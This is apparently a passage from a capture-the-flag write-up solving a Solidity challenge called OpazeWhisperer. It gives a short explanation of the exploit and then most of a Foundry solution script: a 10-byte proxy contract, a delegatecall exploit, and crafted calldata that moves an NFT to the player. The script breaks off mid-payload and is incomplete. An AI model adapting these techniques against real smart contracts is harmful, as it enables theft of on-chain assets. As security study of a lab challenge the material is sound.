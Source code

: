 ### Why It Works

The exploit succeeds because:
1. The proxy contract satisfies the 10-byte size limit
2. Delegate call allows executing arbitrary code
3. Memory location 0x1337 is properly initialized via the gadget
4. VM instructions in the calldata execute the NFT transfer
5. The contract's jump validation is bypassed

## Complete Solution

```solidity
import {Script, console} from "forge-std/Script.sol";
pragma solidity ^0.8.0;

import "src/Challenge.sol";
import "src/Opaze.sol";
import "src/OpazeWhisperer.sol";

contract Proxy {
   constructor() {
       assembly {
           mstore(0, 0x5F5F5F5F335aF400414100000000000000000000000000000000000000000000)
           mstore8(8, 0x06)
           mstore8(9, 0x60)
           return(0, 10)
       }
   }
}

contract Exploit {
   OpazeWhisperer immutable target;
   address immutable PLAYER;
   address proxy;
   
   constructor(OpazeWhisperer _target, address _proxy, address player) {
       target = _target;
       proxy = _proxy;
       PLAYER = player;
   }
   
   function pwn() external payable {
       (bool success,) = address(proxy).call{gas: 100000, value: 0x02D4}("");
       require(success, "Call failed1");
   }

   fallback() external payable {
        bytes memory data = abi.encodeWithSignature(
           "play(string)",
           "answer"
        );

        bytes memory payload = bytes.concat(
           data,
           hex"00000000000000000000000000000000000000000000000000000000",
           hex"11020080",
           hex"11020000",
           hex"11020000",
           hex"1114", abi.encodePacked(address(PLAYER)),
           hex"33", hex"23b872dd000000000000000000000000769f3e5057b43b0d511065ed74df982e",
           hex"33", hex"9134da9c000000000000000000000000d2d86433d89c204bf5f2451bbc98175a",
           hex"33", hex"1fc4cd6900000000000000000000000000000000000000000000000000000000",
           hex"33", hex"00000001fffffff1000000010000000100000001000000010000000100000001",
```